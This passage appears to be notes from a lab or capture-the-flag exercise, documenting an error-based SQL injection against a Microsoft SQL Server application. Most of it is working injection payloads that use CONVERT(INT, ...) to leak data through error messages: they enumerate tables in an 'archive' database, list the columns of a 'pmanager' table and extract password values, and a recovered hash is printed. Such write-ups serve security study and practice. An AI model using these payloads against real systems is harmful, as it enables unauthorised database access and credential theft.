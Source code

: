 
![[17. pmanager.png]]

```shell
#shell only 1 table is pmanager, incrementing N does not work.
', CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 TABLE_NAME FROM (SELECT DISTINCT top 2 TABLE_NAME FROM archive.information_schema.TABLES ORDER BY TABLE_NAME ASC) sq ORDER BY TABLE_NAME DESC)+CHAR(58))))--
```



```shell
# next step after getting tables from other databases
#Extract columns from another database (change other_database, other_table and increase N):


', CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 1 column_name FROM archive.information_schema.COLUMNS WHERE TABLE_NAME='pmanager' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--

column 1 = alogin
```

![[18. alogin.png]]


```shell
# column 2 = id
', CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 2 column_name FROM archive.information_schema.COLUMNS WHERE TABLE_NAME='pmanager' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--
```

![[19. id.png]]


```shell
# column 3 = psw
', CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 3 column_name FROM archive.information_schema.COLUMNS WHERE TABLE_NAME='pmanager' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--

```

![[20. psw.png]]

```shell
# column 4 = came back as psw again, must be all that is in these columns
', CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 4 column_name FROM archive.information_schema.COLUMNS WHERE TABLE_NAME='pmanager' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--
```

```shell
1st hash: 3c744b99b8623362b466efb7203fd182

Extract data from another database (change other_database, other_table, other_column and increase N):

', CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 psw FROM (SELECT top 1 psw FROM archive..pmanager ORDER BY psw ASC) sq ORDER BY psw DESC)+CHAR(58)+CHAR(58))))--
```
